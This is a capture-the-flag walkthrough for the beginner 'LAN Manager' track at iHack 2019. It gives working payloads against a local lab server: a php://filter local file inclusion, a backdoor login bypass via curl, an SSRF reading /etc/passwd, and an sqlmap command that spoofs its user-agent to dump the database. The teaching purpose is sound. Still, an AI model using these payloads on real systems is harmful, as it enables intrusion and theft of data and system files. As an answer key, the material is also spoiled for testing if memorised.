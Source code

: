 # LAN Manager - iHack 2019 by Pourliver

## Description
This track contains 4 flags. It was meant to be a simple track, without any dead-ends. Each possible vulnerability is rewarded with a flag. I tried to keep it simple for beginners, meaning that if you think there's something worth looking into, you're probably right. The goal of this track isn't to guess, bruteforce, or bypass complex filters. It's simply to understand where the vulnerability is, and how to make some value out of it. Hope you enjoy!

## Walkthrough of each vulnerabilities
1 - LFI
- The LFI allows the attack to read the source of the php files

      http://127.0.0.1:8080/?page=php://filter/convert.base64-encode/resource=config

2 - Backdoor in the code / Login bypass
- The "ugly" code found inside the codebase allows to bypass the unimplemented login. The following curl passes the backdoor

      curl "http://127.0.0.1:8080/p.php?username=s3cRet4DmiN&password=hunter2" --cookie "LET_ME_IN=The magic word is PLEASE" -I

3 - SSRF
- The admin panel is vulnerable to the "file" protocol, allowing to fetch local files.

      curl "http://127.0.0.1:8080/?page=admin.php&url=file:///etc/passwd" --cookie "PHPSESSID=YOUR_BACKDOOR_COOKIE"

4 - (Optional) Blind SQLi
- The stats.php page is vulnerable to an easy sql injection. It can be easily solved manually, or with sqlmap. The server blocks the sqlmap user-agent, so we have to tamper it with --random-agent

      sqlmap -u "http://127.0.0.1:8080/?page=home.php&mode=0" -p mode --threads 10 --level 5 --risk 3 --dbms sqlite3 --random-agent -a

